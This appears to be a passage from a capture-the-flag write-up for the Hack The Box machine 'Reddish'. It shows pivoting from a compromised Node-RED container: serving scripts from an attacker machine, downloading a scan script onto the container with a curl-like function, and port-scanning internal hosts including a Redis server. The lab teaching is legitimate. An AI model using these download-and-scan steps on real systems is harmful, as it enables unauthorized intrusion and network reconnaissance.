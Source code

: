 Start a python server on the attacker machine that will host the scripts and binaries.


```bash
python3 -m http.server 80
```

On the nodered container use the `__curl` function to download the hostscan.sh script.

```bash
root@nodered:/tmp/workspace_nodered_container## __curl http://10.10.14.26/hostscan.sh > hostscan.sh
```

![nodered hostscansh](/img/htb/reddish/nodered_hostscansh.png)

The scan shows that in the network 172.19.0.0 exist other three hosts besides 172.19.0.4 which is nodered. Proceed with enumerating the open ports of each host.

> For this task I created a minimal network scanner written in bash, this tool will be used to further enumerate more hosts in the network. [netscan](https://github.com/xffsec/netscan)

Performing a port scan of the active hosts returns other 2 results, an http server on 172.19.0.2 and redis on 172.19.0.3

```bash
bash netscan -P -t 172.19.0.3 -R 1-4 -r 1-10000
```

![netscan hosts port](/img/htb/reddish/netscan_hosts_ports.png)

A network map is created for ease of reference.

```java
[Attacker] 10.10.14.26

  [nodered] 172.18.0.2:1880 172.19.0.4:1880

    [host]        172.19.0.1

    [container_1] 172.19.0.2:80

    [container_2] 172.19.0.3:6379
```
